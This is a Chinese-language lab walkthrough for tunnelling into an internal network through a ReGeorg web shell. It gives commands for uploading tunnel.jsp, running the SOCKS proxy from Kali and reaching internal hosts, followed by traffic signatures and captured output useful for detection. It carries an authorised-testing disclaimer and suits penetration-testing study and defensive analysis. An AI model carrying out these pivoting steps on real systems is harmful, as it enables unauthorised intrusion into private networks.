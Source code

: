 ### 攻击步骤
1. **部署ReGeorg Web Shell**  
   - 将`tunnel.jsp`上传至受控Web服务器（如`/var/www/html/tunnel.jsp`）。  
   - 验证访问：`http://182.x.x.x:8080/tunnel.jsp`。  

2. **启动ReGeorg隧道**  
   - 在Kali上运行ReGeorg：
     ```bash
     python reGeorgSocksProxy.py -u http://182.x.x.x:8080/tunnel.jsp -p 1080
     ```
   - 配置Proxifier，将本地SOCKS5代理设置为`127.0.0.1:1080`。  

3. **访问内网资源**  
   - 使用`curl`通过隧道访问内网Web服务：
     ```bash
     curl -x socks5://127.0.0.1:1080 http://172.17.0.2/login.php
     ```

4. **捕获流量**  
   - 在Kali上使用`tcpdump`抓包：
     ```bash
     tcpdump -i eth0 -w kali.pcap
     ```
   - 在Web服务器上抓包：
     ```bash
     tcpdump -i eth0 -w server.pcap
     ```
   - 使用Wireshark分析流量，追踪TCP流。

5. **清理（测试后）**  
   - 删除Web Shell：`rm /var/www/html/tunnel.jsp`。  
   - 终止ReGeorg进程：`Ctrl+C`。  
   - 移除Proxifier代理配置。

### 流量特征
- **Kali抓包**：显示HTTP请求（如`GET /login.php`）和ReGeorg命令（`cmd=connect`、`cmd=forward`）。  
- **Web服务器抓包**：显示ReGeorg的POST请求，包含`X-CMD`头（如`CONNECT`、`READ`、`FORWARD`、`DISCONNECT`）和内网目标（如`X-TARGET: 172.17.0.2`）。  
- **内网主机抓包**：显示Web服务器作为跳板，请求内网资源（如`/login.php`）。

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。

## 测试留痕

### Kali（攻击机）
- **tcpdump/Wireshark抓包**：
  ```plaintext
  GET /login.php HTTP/1.1
  Host: 172.17.0.2
  User-Agent: curl/7.68.0
  Accept: */*
  HTTP/1.1 200 OK
  Date: Thu, 17 Dec 2020 16:39:09 GMT
  Server: Apache/2.4.7 (Ubuntu)
  Content-Length: 1567
  Content-Type: text/html;charset=utf-8
  ```
